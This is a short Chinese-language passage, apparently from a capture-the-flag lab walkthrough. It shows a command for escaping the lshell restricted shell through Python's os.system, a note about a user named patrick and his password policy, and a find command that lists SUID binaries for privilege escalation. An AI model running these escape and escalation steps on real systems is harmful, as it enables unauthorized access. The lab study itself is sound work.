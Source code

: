 尝试逃逸，之前在某个靶场中，有`echo`逃逸的测试，当然需要与`python`搭配，是`lshell`的问题

```shell
echo os.system('/bin/bash')
```

# 靶机内信息收集

查看当前目录下的文件

![](./pic-devt/26.jpg)

这里提到了`patrick`，以及密码策略，应该还没有更改

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```
